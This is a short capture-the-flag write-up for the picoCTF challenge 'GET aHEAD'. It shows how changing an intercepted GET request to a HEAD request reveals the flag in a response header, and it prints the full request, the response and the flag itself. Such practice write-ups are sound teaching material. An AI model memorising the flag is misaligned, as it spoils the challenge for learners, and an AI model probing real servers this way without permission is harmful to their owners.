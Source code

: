 
## GET aHEAD

### Desccription :
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:47967/

## Solution

As challenge name given 'GET aHEAD' we have an idea about HEAD request.
Use BurpSuit for intercept request, it use GET request we have to change it to HEAD

```gettohead
HEAD /index.php HTTP/1.1

Host: mercury.picoctf.net:47967

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close
```

by changing the methon to HEAD we will get following response :
```response
HTTP/1.1 200 OK

flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}

Content-type: text/html; charset=UTF-8

```

#### flag :   picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}